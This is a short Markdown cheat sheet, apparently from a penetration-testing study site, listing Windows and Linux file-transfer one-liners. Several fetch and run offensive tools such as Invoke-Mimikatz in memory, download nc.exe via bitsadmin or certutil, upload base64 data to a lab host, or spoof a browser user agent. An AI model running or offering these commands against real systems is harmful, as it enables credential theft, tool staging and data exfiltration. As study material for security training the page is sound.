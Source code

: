 ```yaml
---
{"dg-publish":true,"permalink":"/windows/comandos/","dgPassFrontmatter":true}
---
```



# Windows

|**Command**|**Description**|
|---|---|
|`Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`|Download a file with PowerShell|
|`IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`|Execute a file in memory using PowerShell|
|`Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`|Upload a file with PowerShell|
|`bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`|Download a file using Bitsadmin|
|`certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`|Download a file using Certutil|
|`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`|Download a file using Wget|
|`curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`|Download a file using cURL|
|`php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`|Download a file using PHP|
|`scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`|Upload a file using SCP|
|`scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`|Download a file using SCP|
|`Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"`|Invoke-WebRequest using a Chrome User Agent|